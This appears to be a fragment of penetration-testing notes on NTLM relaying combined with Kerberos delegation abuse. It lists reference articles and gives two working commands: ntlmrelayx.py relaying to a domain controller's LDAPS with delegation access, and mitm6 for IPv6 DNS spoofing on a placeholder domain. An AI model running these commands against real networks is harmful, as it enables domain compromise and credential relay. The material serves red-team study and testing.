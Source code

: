 * [https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)
* [https://chryzsh.github.io/relaying-delegation/](https://chryzsh.github.io/relaying-delegation/)
* [https://habr.com/ru/company/jetinfosystems/blog/449278/](https://habr.com/ru/company/jetinfosystems/blog/449278/)
* [https://www.exploit-db.com/docs/48282](https://www.exploit-db.com/docs/48282)
* [[PDF] From Zero Credential to Full Domain Compromise (Haboob Team)](https://drive.google.com/file/d/1htCGIt1Wcg53zCSGnRk4wfcKOk5A_YDP/view?usp=sharing)

```
$ sudo /usr/local/bin/ntlmrelayx.py -t ldaps://DC01.megacorp.local --delegate-access --no-smb-server -wh attacker-wpad --no-da --no-acl --no-validate-privs [-debug]
$ sudo mitm6 -i eth0 -d megacorp.local --ignore-nofqdn
```
